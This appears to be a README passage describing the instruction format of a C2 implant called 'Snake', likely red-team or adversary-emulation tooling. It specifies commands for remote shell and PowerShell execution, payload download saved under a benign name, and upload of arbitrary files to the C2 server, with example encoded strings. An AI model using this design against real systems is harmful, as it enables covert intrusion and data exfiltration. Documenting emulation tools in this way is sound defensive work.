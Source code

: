Each instruction, including empty instructions, is defined by an 18-digit random ID, and is categorized among various instruction types based on a 2-digit type code. The type code determines how to interpret the instruction arguments.

The following type codes are supported:
- `00` - "empty" instruction. Don't do anything other than sleep before the next beacon.
- `01` - shell command instruction to execute via `cmd.exe /c`. There will be a single instruction argument, which is a base64-encoded command that the implant will decode and execute. The command output will be sent to the C2 server afterwards.
- `02` - base64-encoded powershell instruction to execute via `powershell.exe -nol -noni -nop -enc ...`. There will be a single instruction argument, which is the base64-encoded command to run. The output will be sent to the C2 server afterwards. Note that we recommend prepending your powershell commands with `$ProgressPreference="SilentlyContinue";` to avoid the CLIXML stderr.
- `03` - instuction to spawn a process using the specified binary path and optional args. The optional args are base64-encoded, which the implant will decode and execute. The command output will be sent to the C2 server afterwards.
- `04` - instruction to download a file. There will be two arguments - the first one if the filename that is being requested from the C2 server (currently only used for logging purposes), and the second is the location to save the payload on disk. If only a filename is provided as the destination, the payload will be saved in the Snake home directory rather than the current directory (current directory is specified with an explicit `.\`).
- `05` - instruction to upload an arbitrary file. There will be one argument - the path to the file on the local system to upload to the C2 server.
- `06` - instruction to upload log files. No arguments needed, since the implant has the log file paths and IDs hardcoded.

Instructions also come with various options:
- Sleep time, or how many seconds to sleep after performing the instruction and before sending the next beacon.
- Username for a user to run a process as, if available.

The overall received instruction blob uses the following format:
```
ID[18-digit ID]#[2-digit type code] &arg1&arg2...&argN[sleep time]&[username to run command as]&&
```

Example:
```
ID402350900690432407#01 &d2hvYW1pIC9hbGw=#20&mydomain\myuser&&
```
In the above example, the ID is `402350900690432407`, the type code is `01`, the command to execute is `whoami /all` as the user `mydomain\myuser`, and the implant will sleep for 20 seconds afterwards.

An empty instruction may look like this (type code `00`, sleep for 15 seconds):
```
ID760156340487338735#00 #15&&&
```

A payload instruction may look like the following:
```
ID402350900690432407#04 &malware.exe&benign.exe#20&&&
```
In the above example, the module will request file `malware.exe` from the C2 server and save it as `benign.exe` in the Snake home directory.
